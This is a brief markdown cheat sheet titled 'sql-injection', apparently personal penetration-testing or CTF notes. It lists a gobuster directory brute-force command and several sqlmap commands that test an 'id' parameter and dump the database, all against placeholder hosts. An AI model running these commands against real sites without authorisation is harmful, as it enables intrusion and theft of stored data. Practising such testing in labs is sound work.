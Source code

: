 # sql-injection

gobuster -w /usr/shrare/wordlist/dirbuster/directory-list-2.3-small.txt -u http://url

sqlmap -r filename.req -p id

check union injectable

sqlmap -u http://host.com/cat.php?id=1 -p id --dump

sqlmap -r filename.req -p id --dump
